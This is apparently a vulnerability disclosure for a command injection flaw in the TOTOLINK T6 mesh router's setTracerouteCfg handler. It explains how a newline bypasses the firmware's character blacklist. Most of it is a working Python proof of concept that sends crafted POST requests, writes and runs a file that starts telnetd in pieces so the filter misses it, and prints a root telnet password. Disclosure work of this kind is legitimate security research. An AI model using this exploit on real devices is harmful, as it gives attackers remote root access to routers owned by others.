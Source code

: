 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection bypass vulnerability. This vulnerability can be triggered through the topicurl `setTracerouteCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `command` parameter can cause command injection vulnerability

![image-1](3/1.png)

However `Validity_check` function check for command injection before doing `system` (Ghidra choke so I use IDA instead)

![image-1](3/2.png)

So `;`, `.sh`, `iptables`, `telnetd`, `&`, `|`, `$` and "\`" is blacklist. We can bypass commnad injection with new line `\n`

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"setTracerouteCfg",
        "command":"\\n%s \\n"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    execute_command(target_ip, "rm /tmp/hacked")
    execute_command(target_ip, "echo -n tel >> /tmp/hacked")
    execute_command(target_ip, "echo -n netd >> /tmp/hacked")
    execute_command(target_ip, "echo -n ' # Pwned by Elvis!!!' >> /tmp/hacked")
    execute_command(target_ip, "chmod +x /tmp/hacked")
    
    print("[+] /tmp/hacked written. Try telnet %s with root/KL@UHeZ0" % target_ip)
    execute_command(target_ip, "/tmp/hacked")
```

[Video](https://youtu.be/GawLaYfTwYs)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.